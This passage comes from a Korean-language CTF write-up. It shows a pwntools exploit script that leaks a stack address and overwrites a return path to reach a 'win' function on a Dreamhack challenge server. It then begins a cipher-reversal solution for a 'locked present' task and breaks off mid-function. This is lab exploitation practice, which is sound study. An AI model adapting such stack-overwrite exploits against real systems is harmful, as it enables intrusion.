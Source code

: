 Win함수 있으니까 이걸로 변조하면 된다.

```python
from pwn import *

sla = lambda x, y : r.sendlineafter(x, y)
sa = lambda x, y : r.sendafter(x, y)
rvu = lambda x : r.recvuntil(x)

#r = process("./msnw")
r = remote("host3.dreamhack.games", 19028)

magic = 0x40135B

sa(": ", b"a"*0x130)

stack_leak = u64(rvu("\x7f")[-6:].ljust(8, b"\x00"))
log.info(hex(stack_leak))

sa(": ", p64(magic)*38+p16((stack_leak - 0x210) & 0xffff))

r.interactive()
```

![Untitled](../files/christmas%20ctf%202022%205793e210ad10417bab0c141efed21db1/Untitled%207.png)

<br><br><br>

# D - **locked present**

```python
plain=[0x61, 0x5F, 0x6D, 0x65, 0x72, 0x72, 0x79, 0x5F, 0x63, 0x68, 
0x72, 0x69, 0x73, 0x74, 0x6D, 0x61, 0x73, 0x5F, 0x66, 0x6F, 0x72,
 0x5F, 0x79, 0x6F, 0x75]
sbox=[{redacted}]

inp="abcdefghijklmnopqrstuvwxy"
plain=list(map(ord,inp))
keytable=[{redacted}]

def addroundkey(a1,a2):
    for i in range(5):
        for j in range(5):
            a2[i*5+j]^=keytable[a1*25+i*5+j]

def subbytes(a1):
    for i in range(len(a1)):
        a1[i]=sbox[a1[i]]

def re_subbytes(a1):
    for i in range(len(a1)):
        a1[i]=sbox.index(a1[i])

def shiftrows(a1):
    for i in range(5):
```